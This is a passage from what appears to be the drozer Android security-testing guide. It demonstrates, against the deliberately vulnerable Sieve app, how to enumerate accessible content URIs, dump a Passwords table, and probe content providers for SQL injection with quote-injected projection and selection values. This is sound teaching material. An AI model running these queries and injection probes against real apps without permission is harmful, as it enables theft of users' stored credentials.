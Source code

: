 drozer provides a scanner module that brings together various ways to guess paths and divine a list of accessible content URIs:

```
dz> run scanner.provider.finduris -a com.withsecure.example.sieve
Attempting to run shell module
Scanning com.withsecure.example.sieve...
...

For sure accessible content URIs:
  content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords
  content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/
  content://com.withsecure.example.sieve.provider.DBContentProvider/Keys/
```

We can now use other drozer modules to retrieve information from those content URIs, or even modify the data in the database:

```
dz> run app.provider.query content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/ --vertical
Attempting to run shell module
     _id  1
 service  yayserviceyay
username  yayusernameyay
password  b'TVVNRFVHR0NbRlBNVU0=' (Base64-encoded)
   email  yayemailyay@yay.com

     _id  2
 service  booserviceboo
username  boousernameboo
password  b'VltbRFVHR0NbRlBWW1s=' (Base64-encoded)
   email  booemailboo@boo.com
```

Once again we have defeated the app’s security and retrieved a list of usernames from the app. In this example, drozer has decided to base64-encode the password. This indicates that field contains a binary blob that otherwise could not be represented in the console

### 3.5.2 Database-backed Content Providers (SQL Injection)

The Android platform promotes the use of SQLite databases for storing user data. Since these databases use SQL, it should come as no surprise that they can be vulnerable to SQL injection. 

It is simple to test for SQL injection by manipulating the projection and selection fields that are passed to the 
content provider:

```
dz> run app.provider.query content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/ --projection "'"
Attempting to run shell module
Exception occured: unrecognized token: "' FROM Passwords" (code 1 SQLITE_ERROR): , while compiling: SELECT ' FROM Passwords
```
```
dz> run app.provider.query content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/ --selection "'"
Attempting to run shell module
Exception occured: unrecognized token: "')" (code 1 SQLITE_ERROR): , while compiling: SELECT * FROM Passwords WHERE (')
```
